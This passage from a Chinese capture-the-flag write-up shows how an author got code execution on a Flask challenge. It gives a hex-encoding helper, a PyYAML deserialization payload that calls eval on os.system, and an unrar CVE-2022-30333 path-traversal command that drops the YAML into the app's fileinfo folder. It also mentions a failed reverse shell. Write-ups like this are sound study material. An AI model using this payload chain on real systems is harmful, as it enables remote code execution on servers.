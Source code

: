 字符串里的内容用十六进制编码绕过

```python
def enc(s):
    n = []
    for c in s:
        n.append(r'\x%2x' % ord(c))
    return ''.join(n)

text = "__import__('os').system('ls / > /tmp/ls.txt')"
print(enc(text))
```

最终 payload 如下

```yaml
!!python/object/new:frozenset
- !!python/object/new:map
  - !!python/name:eval
  - ["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x20\x2f\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x6c\x73\x2e\x74\x78\x74\x27\x29"]
```

保存为 yml 文件, 然后通过 unrar poc 构造 rar 文件

需要注意源码里的路径是 `fileinfo/{md5(filename.encode()).hexdigest()}.yaml`, 而 fileinfo 在 flask 项目文件夹下

上传后解压的文件夹在 `{session.get('updir')}/{filename.split('.')[0]}` 下, 类似于 `static/uploads/xx/123/`

所以构造的时候要先跳四层然后再进入 fileinfo

另外 `f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml'` 指定了读取的 yml 文件的格式, 需要把文件名改成 md5

```bash
exp10it@LAPTOP-TBAF1QQG:~/Desktop/unrar-cve-2022-30333-poc$ ruby cve-2022-30333.rb '../../../../fileinfo/f3abb86bd34cf4d52698f14c0da1dc60.yaml' ./f3abb86bd34cf4d52698f14c0da1dc60.yaml > ls.rar
exp10it@LAPTOP-TBAF1QQG:~/Desktop/unrar-cve-2022-30333-poc$
```

其中 zzz 的 md5 值为 f3abb86bd34cf4d52698f14c0da1dc60

之后访问 `/display?file=zzz` 触发 yaml 反序列化

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261744516.png)

读取 /tmp/ls.txt

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261747282.png)

反弹 shell 一直失败, 不知道什么原因

start.sh 跟 flag 一样也读不出来, 估计是要提权?

查看系统版本

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208261748222.png)

Ubuntu 20.04 挺新的, 目前应该没有相关的 exp
